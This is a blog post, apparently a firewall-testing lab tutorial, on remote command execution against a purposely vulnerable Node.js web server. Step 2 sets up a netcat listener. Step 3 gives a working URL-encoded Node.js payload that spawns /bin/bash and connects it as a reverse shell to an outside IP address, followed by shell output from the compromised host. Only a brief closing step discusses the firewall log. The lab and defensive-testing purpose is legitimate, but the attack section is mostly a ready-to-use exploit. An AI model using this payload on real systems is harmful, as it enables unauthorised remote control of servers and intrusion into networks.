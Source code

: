 ```yaml
---
layout: post
date:   2020-08-09 17:54:35 -0400
title:  "Web Server Compromise - Node.js Remote Command Execution"
categories: initialaccess
tags: vulnerabilityprotection
---
```

<p>
Remotely exploiting servers in DMZ's seems so unecessary today with all of the credential theft and client side exploitation, but it is still a critical link in the attack chain. Cloud initiatives are allowing administrators to start up servers all over the place, and most of the time they do not have the same protections in the cloud they typically would in the DMZ. This attack could also be applied for lateral movement if the vulnerable web application is only accessible internally.
</p>

<p>
As a user you can be on either side of the DUT (Device Under Testing) for this. We will be exploiting the web server by requesting a URL with the command execution in it. For this user case that command will ask the web server to connect to our control infrastructure.
</p>

<p>
This particular use case can be used to demonstrate lateral movement too. This host could be the initial system compromised from the Internet and then pivot to another host, or it could be leveraged to pivot on an internal network.
</p>

<h3>Step 1 - Deploy the Node.js Container</h3>

<p>
The intrstructions to build your own vulnerable container can be found here, <a href="https://github.com/freshdemo/node-simple-rce">https://github.com/freshdemo/node-simple-rce</a>.
</p>


<h3>Step 2 - Setup Control</h3>

<p>
From a terminal behind your device under testing run netcat as a listener. Make sure the port you specify will be accessible from the webserver.
</p>

<code>
  nc -l 80
</code>
<br>


<h3>Step 3 - Exploit the Server</h3>

<p>
The following demonstrates how to connect to the vulnerable server (localhost:8080), and run the remote command execution that communicates with the control server in the previous step (13.88.250.188:80).
</p>

<code>
  http://localhost:8080/q=var+net+=+require("net"),+sh+=+require("child_process").exec("/bin/bash");var+client+=+new+net.Socket();client.connect(80,+"13.88.250.188",+function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
</code>
<br>
<br>

<p>
Now back at your control server you should be able to execute commands on the host.
</p>

<pre>
root@DockerHost:~# nc -l 80
pwd
/usr/src/app
ls
app.js
node_modules
package-lock.json
package.json
</pre>


<h3>Step 4 - View the Results</h3>


<p>
Looking at the following NGFW log we can see that the NGFW did permit this traffic, however the application was identified as unknown-tcp. Unknown-tcp should be managed out of your network so this application should not be permitted long after the initial deployment.
</p>
<br>
<br>
<img src="/images/exploit-nodejs-rce-results.png" alt="ngfw">



